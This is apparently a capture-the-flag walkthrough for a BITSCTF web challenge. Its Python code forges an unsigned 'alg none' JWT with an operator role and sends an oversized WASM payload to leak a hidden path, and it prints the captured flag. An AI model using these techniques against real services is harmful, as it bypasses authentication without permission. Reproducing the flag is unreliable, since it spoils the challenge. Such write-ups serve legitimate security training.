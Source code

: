 **Quantum Paradox Challenge Solution Walkthrough**

This document explains the step-by-step process to retrieve the flag from the quantum-themed server. The solution involves three sequential stages of interaction with the server's protocols.

---

### **Stage 1: Quantum Handshake Initialization**
**Endpoint**: `POST /qchannel`  
**Purpose**: Establish quantum entanglement with the server.

**Implementation**:
```python
response = requests.post(
    "http://chals.bitskrieg.in:3009/qchannel",
    headers={"x-quantum-phase": "superposition"},
    data=bytes.fromhex("deadbeef")
)
```
- **Header Requirement**: The `x-quantum-phase` must be set to `superposition` to initialize the quantum state.
- **Body Requirement**: The first 4 bytes of the request body must match the hex value `deadbeef`, representing the quantum entanglement initialization vector.  
- **Response**: Successful execution returns `x-quantum-state: entangled` in headers.

---

### **Stage 2: Path Acquisition via Qubit Processing**
**Endpoint**: `POST /qproc`  
**Purpose**: Obtain the vault path through server response.

**Implementation**:
```python
wasm = b"\x00asm\x01\x00\x00\x00" + (b"\x00" * 8193)
response1 = requests.post("http://chals.bitskrieg.in:3009/qproc", data=wasm)
```
- **Payload Design**:  
  - A valid WASM header (`\x00asm\x01\x00\x00\x00`) ensures the server processes the payload.  
  - The 8193-byte size exceeds the server's buffer capacity, triggering a controlled response.  
- **Result**: The server responds with the error message containing the vault path `Quantum_decoherence_22323`.

---

### **Stage 3: Temporal Authentication**
**Endpoint**: `GET /vault/{path}`  
**Purpose**: Access the flag using quantum operator privileges.

#### **Step 3.1: JWT Token Generation**
```python
header = base64.urlsafe_b64encode(b'{"alg":"none","typ":"JWT"}').strip(b'=')
payload = base64.urlsafe_b64encode(
    f'{{"qrole":"operator","iat":{current_time},"exp":{exp_time}}}'.encode()
).strip(b'=')
token = f"{header.decode()}.{payload.decode()}."
```
- **Header**: Specifies `alg: none` to indicate no cryptographic signature.  
- **Payload**: Contains:  
  - `qrole: operator` (required privilege level)  
  - `iat`/`exp` timestamps (valid temporal window)  

#### **Step 3.2: Flag Retrieval**
```python
response = requests.get(
    f"http://chals.bitskrieg.in:3009/vault/{response1.text}",
    headers={"Authorization": f"Quantum {token}"}
)
```
- **Authorization Header**: Uses the `Quantum` scheme with the generated JWT.  
- **Path Construction**: Uses the vault path obtained in Stage 2.  
- **Validation**: The server checks for:  
  - Valid JWT structure  
  - `operator` role in payload  
  - Unexpired temporal claims  

---

### **Final Output**
```
Quantum State: entangled
Flag: BITSCTF{Quantumn_Got_Spilled_2203AA23}
```

---

### **Key Protocol Interactions**
| Stage | Protocol Component      | Technical Requirement                          |
|-------|-------------------------|------------------------------------------------|
| 1     | Quantum Handshake       | Correct phase header + entanglement initialization |
| 2     | Qubit Processing        | WASM header validity + payload size trigger   |
| 3     | Temporal Authentication | JWT structure + role claims + time validation |

